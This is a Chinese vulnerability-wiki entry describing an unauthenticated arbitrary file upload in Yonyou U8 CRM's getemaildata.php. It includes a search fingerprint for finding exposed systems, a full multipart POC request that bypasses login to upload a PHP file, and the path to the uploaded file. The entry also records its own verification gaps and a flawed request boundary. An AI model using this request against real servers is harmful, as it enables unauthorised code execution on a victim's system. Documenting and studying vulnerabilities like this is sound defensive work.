


# 用友U8 CRM getemaildata上传

## 条目说明

- 对象与具体问题：用友U8 CRM；getemaildata上传
- 版本、配置及部署条件：未知；尾空格处理平台条件
- 认证与权限前提：DontCheckLogin=1前提
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- U8 CRM不是GRP-U8，需独立产品分类
- 末multipart边界未加终止--，HTTP需校正
- 文件名十六进制减一规则缺原始响应推导，不能固定updD24D
- 缺源码/版本/修复，phpinfo不等OS命令

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

用友 U8 CRM客户关系管理系统 getemaildata.php 文件存在任意文件上传漏洞，攻击者通过漏洞可以获取到服务器权限，攻击服务器

### 漏洞影响

用友 U8 CRM客户关系管理系统

### 网络测绘

```
web.body="用友U8CRM"
```

### 漏洞复现

登陆页面



验证POC

```http
POST /ajax/getemaildata.php?DontCheckLogin=1 HTTP/1.1
Host:
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykS5RKgl8t3nwInMQ

------WebKitFormBoundarykS5RKgl8t3nwInMQ
Content-Disposition: form-data; name="file"; filename="test.php "
Content-Type: text/plain

<?php phpinfo();?>

------WebKitFormBoundarykS5RKgl8t3nwInMQ
```



访问文件，文件名需要十六进制减一

```
/tmpfile/updD24D.tmp.php
```

---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
